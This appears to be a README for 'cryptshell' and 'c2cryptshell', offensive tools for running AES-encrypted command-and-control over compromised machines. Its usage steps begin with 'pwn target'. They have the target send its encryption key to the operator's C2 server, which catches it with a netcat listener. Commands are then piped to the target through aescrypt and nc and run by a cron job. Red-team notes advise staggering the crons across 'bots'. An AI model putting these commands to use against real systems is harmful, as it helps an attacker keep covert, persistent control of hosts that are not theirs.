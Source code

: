 # cryptshell
Active AES Encrypted C2 Campaign Management

## usage
- pwn target
- configure the following variables in cryptshell
	- RHOST (the IP of your C2 server that you will be sending the commands from)
	- RPORT (the port on your C2 server that you want cryptshell to send the AES key to)
	- LPORT (the port you want the target to listen on)
- setup listener on attack box (to recieve key): nc -lnvp $RPORT > aes.key
- run cryptshell on target and kill the connection after the key is transferred
- pipe c2 commands through aescrypt and a socket to your target (the listener and decrypter are on a cron): echo "touch tmp" | aescrypt -e -k aes.key - | nc target $LPORT
	- since it runs on a cron, you can only send one payload per cron cycle, so I suggest you prepare scripted one liners
	- you will know if the commands were sent if you run the command and the connection hangs, wait a few seconds and force quit it

# c2cryptshell
Passive AES Encrypted C2 Campaign Management

## usage
- [the first four steps from cryptshell, replacing cryptshell with c2cryptshell]
- run c2cryptgen.sh on attack box
- kill the connection on the attack box after the connection is made
- [repeat steps 2 and 3 until all bots have made the connection]

## red team notes
- stagger crons on bots so that they do not all try and connect at the same time, and keep note of which bots call back when so you can track who recieved what instructions
